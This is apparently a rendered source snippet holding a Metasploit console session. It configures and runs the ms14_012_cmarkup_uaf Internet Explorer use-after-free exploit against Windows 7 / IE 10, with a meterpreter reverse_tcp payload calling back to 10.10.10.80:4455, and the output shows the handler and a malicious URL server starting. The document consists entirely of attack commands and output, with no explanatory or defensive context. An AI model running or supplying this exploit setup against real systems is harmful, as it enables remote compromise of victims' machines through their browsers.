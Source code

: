 ```
msf exploit(ms14_012_cmarkup_uaf) > set URIPATH snowman 
URIPATH => snowman 
msf exploit(ms14_012_cmarkup_uaf) > set PAYLOAD windows/meterpreter/reverse_tcp 
PAYLOAD => windows/meterpreter/reverse_tcp 
msf exploit(ms14_012_cmarkup_uaf) > set LHOST 10.10.10.80 
LHOST => 10.10.10.80 
msf exploit(ms14_012_cmarkup_uaf) > set LPORT 4455 
LPORT => 4455 
msf exploit(ms14_012_cmarkup_uaf) > show options

Module options (exploit/windows/browser/ms14_012_cmarkup_uaf):

   Name        Current Setting  Required  Description 
   ----        ---------------  --------  ----------- 
   Retries     false            no        Allow the browser to retry the module 
   SRVHOST     10.10.10.80      yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0 
   SRVPORT     8080             yes       The local port to listen on. 
   SSL         false            no        Negotiate SSL for incoming connections 
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated) 
   SSLVersion  SSL3             no        Specify the version of SSL that should be used (accepted: SSL2, SSL3, TLS1) 
   URIPATH     snowman          no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description 
   ----      ---------------  --------  ----------- 
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none) 
   LHOST     10.10.10.80      yes       The listen address 
   LPORT     4455             yes       The listen port


Exploit target:

   Id  Name 
   --  ---- 
   0   Windows 7 SP1 / IE 10 / FP 12

msf exploit(ms14_012_cmarkup_uaf) > run 
[*] Exploit running as background job.

[*] Started reverse handler on 10.10.10.80:4455 
msf exploit(ms14_012_cmarkup_uaf) > [*] Using URL: http://10.10.10.80:8080/snowman 
[*] Server started.
```
 
 

 